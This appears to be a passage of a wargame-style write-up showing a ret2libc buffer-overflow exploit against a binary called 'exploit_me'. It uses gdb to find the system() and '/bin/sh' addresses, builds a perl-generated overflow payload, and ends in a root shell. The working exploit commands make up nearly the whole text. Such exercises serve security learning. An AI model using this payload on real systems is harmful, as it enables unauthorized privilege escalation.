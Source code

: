 ```bash
            (gdb) p system
                $1 = {<text variable, no debug info>} 0xb7e6b060 <system>

            (gdb) find __libc_start_main,+99999999,"/bin/sh"
                0xb7f8cc58
                warning: Unable to access target memory at 0xb7fd3160, halting search.
                1 pattern found.

            (gdb) r "$(perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"')"
                The program being debugged has been started already.
                Start it from the beginning? (y or n) y

                Starting program: /home/zaz/exploit_me "$(perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"')"
                perl: warning: Setting locale failed.
                perl: warning: Please check that your locale settings:
                    LANGUAGE = (unset),
                    LC_ALL = (unset),
                    LC_TERMINAL_VERSION = "3.3.12",
                    LC_CTYPE = "fr_FR.UTF-8",
                    LC_TERMINAL = "iTerm2",
                    LANG = "en_US.UTF-8"
                    are supported and installed on your system.
                perl: warning: Falling back to the standard locale ("C").
                AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��OSEFX��
            $(perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"')) perl: warning: Setting locale failed.
                perl: warning: Please check that your locale settings:
                    LANGUAGE = (unset),
                    LC_ALL = (unset),
                    LC_CTYPE = "fr_FR.UTF-8",
                    LC_TERMINAL_VERSION = "3.3.12",
                    LC_TERMINAL = "iTerm2",
                    LANG = "en_US.UTF-8"
                    are supported and installed on your system.
                perl: warning: Falling back to the standard locale ("C").
                /bin/sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��OSEFX��: not found
            $ ./exploit_me $(perl -e 'print "A"x140 . "\x60\xb0\xe6\xb7" . "OSEF" . "\x58\xcc\xf8\xb7"')
                perl: warning: Setting locale failed.
                perl: warning: Please check that your locale settings:
                    LANGUAGE = (unset),
                    LC_ALL = (unset),
                    LC_CTYPE = "fr_FR.UTF-8",
                    LC_TERMINAL_VERSION = "3.3.12",
                    LC_TERMINAL = "iTerm2",
                    LANG = "en_US.UTF-8"
                    are supported and installed on your system.
                perl: warning: Falling back to the standard locale ("C").
                AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��OSEFX��
            # whoami
                root
```

## We did it !
